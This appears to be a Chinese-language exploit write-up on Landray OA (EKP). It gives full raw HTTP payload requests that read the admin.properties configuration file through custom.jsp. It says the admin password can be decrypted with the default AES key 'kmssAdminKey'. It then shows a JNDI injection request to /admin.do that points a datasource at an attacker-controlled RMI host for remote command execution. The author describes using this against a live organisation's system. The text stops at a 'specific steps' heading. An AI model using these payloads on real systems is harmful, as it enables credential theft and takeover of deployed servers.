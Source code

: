 1、将GET请求修改为POST，并加上payload请求数据发送

  * 

    
    
    var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

2、注意构造的请求需要添加

  * 

    
    
    Content-type: application/x-www-form-urlencoded

 **payload请求包**

  *   *   *   *   *   *   *   *   *   *   * 

    
    
     POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1User-Agent: Go-http-client/1.1Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedHost: xx.xxxx.xxxxAccept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Connection: closeContent-Length: 60  
    var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}  
    

‍

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715094058.png)

获取到的password是/admin.do页面的登录密码，由于蓝凌OA默认是AES加密，并且默认密钥为kmssAdminKey，所以只要拿着password进行解密就好。解密可行网站：https://www.qtool.net/des

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715094059.png)

下面是使用工具进行的测试，工具成功发现蓝凌OA的SSRF_JNDI漏洞，并且直接返回password。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715094100.png)

 **二、SSRF+JNDI远程命令执行** **漏洞描述**
蓝凌OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限。
**漏洞复现说明** 当可以登录admin.do后，可以在该页面抓包构造恶意请求来实现JNDI注入，payload请求包如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /admin.do HTTP/1.1Host: Cookie: SECKEY_ABVK=fFfxSmGgwCxPb4YX/Np8Myqx5lRiviM/yrqMs+vCzas%3D; Content-Length: 70Cache-Control: max-age=0Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"Sec-Ch-Ua-Mobile: ?0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Origin: https://X.X.X.XContent-Type: application/x-www-form-urlencodedAccept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8  
      
    method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/dnslog  
    

可以使用JNDI-Injection-Exploit-1.0-SNAPSHOT-
all.jar工具开启一个rmi/ldap服务，此次事件的蓝凌OA系统该JNDI注入漏洞没有回显成功，但是通过dnslog测试可以确定存在该漏洞，可惜迫于事态严重性和上级压力，网站事后当天就将OA系统关闭。我就不做细说明了，网上也有较多教程。
**具体步骤**
